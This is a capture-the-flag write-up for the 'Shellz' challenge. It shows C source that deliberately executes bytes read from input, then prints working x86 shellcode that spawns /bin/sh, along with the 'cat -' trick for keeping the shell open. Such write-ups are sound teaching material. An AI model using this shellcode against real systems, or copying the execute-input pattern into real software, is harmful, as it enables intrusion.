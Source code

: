 # Shellz

We are given this challenge:

![image](https://user-images.githubusercontent.com/24576987/33190548-dbfb8a04-d07b-11e7-8397-761192374564.png)

Connecting to the challenge gives us something like this:

![image](https://user-images.githubusercontent.com/24576987/33190564-f0bcc098-d07b-11e7-991d-878e8ea29fe4.png)

If we look at the source code, we can also see what's up:

```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/mman.h>

    #define AMOUNT_OF_STUFF 40

    //Learned my lesson! No more easy flags
    /*void win(){
        system("/bin/cat ./flag.txt");    
    }*/


    void vuln(){
        char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
        if(stuff == MAP_FAILED){
            printf("Failed to get space. Please talk to admin\n");
            exit(0);
        }
        printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
        fflush(stdout);
        int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
        if(len == 0){
            printf("You didn't give me anything :(");
            exit(0);
        }
        void (*func)() = (void (*)())stuff;
        func();      
    }

    int main(int argc, char*argv[]){
        printf("My mother told me to never accept things from strangers\n");
        printf("How bad could running a couple bytes be though?\n");
        fflush(stdout);
        vuln();
        return 0;
    }
```

From this source code, we can see that there are a few interesting lines to interpret:

```
    void (*func)() = (void (*)())stuff;
    func();      
```

This is essentially creating a function pointer that points to stuff, which is a memory mapped area that was modified by the `read()` function. `func()` is then called on, suggesting that the `eip` will now point to whatever is in `stuff`.

This is strongly implying that we need to use shellcode in whatever `stuff` is. There are lots of free shellcode online, but we will use this one I found from a simple google search:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Let's try injecting this into the remote server:

![image](https://user-images.githubusercontent.com/24576987/33190624-a27783b8-d07c-11e7-9956-ad94aa661196.png)

Hey, what gives? There was no segmentation fault, but we weren't given access to the shell? Well, it turns out that the code was properly executed, but we needed some way to return the results of our input into the server. One thing we could have done was to place `cat -` after our payload, which would read from our `stdin`. Let's do that:

![image](https://user-images.githubusercontent.com/24576987/33190644-daf8f618-d07c-11e7-963e-5e772915733f.png)

And there is our answer! We have the flag!

